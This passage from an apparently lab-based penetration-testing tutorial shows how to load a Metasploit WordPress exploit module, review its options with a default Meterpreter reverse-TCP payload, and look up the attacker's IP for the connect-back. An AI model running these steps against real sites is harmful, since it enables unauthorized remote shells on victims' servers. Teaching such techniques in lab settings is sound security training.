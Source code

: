 Since we have found a potential and promising exploit on the Metasploit Framework, we will continue with WordPress. In order to use the exploit, we enter `use` command followed by the index number . Additionally, each exploit has specific options that need to be configured in order to execute properly. These options can be listed with the command `options`.

```shell
msf6 > use 0

[*] No payload configured, defaulting to php/meterpreter/reverse_tcp
msf6 exploit(multi/http/wp_hash_form_rce) > options

Module options (exploit/multi/http/wp_hash_form_rce):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), see <https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html>
   RPORT      80               yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       The base path to the wordpress application
   VHOST                       no        HTTP server virtual host

Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.10.1.50       yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port

Exploit target:

   Id  Name
   --  ----
   0   PHP In-Memory

```

In this case, we need to specify the remote hosts ( `rhosts`) and the remote port on which WordPress is running ( `rport`). The webserver happens to be using HTTPS , so we need to set `ssl` to `true`. Finally, we have to specify our own IP address, which will be used by the Metasploit Framework to connect back to us from our target. We can get our IP address by using the following command:

```shell
ifconfig tun0

tun0: flags=4305<UP,POINTOPOINT,RUNNING,NOARP,MULTICAST>  mtu 1500
        inet 10.10.16.14  netmask 255.255.254.0  destination 10.10.16.14
        <SNIP>

```

Now, let’s set all the necessary options by using the command `set`:

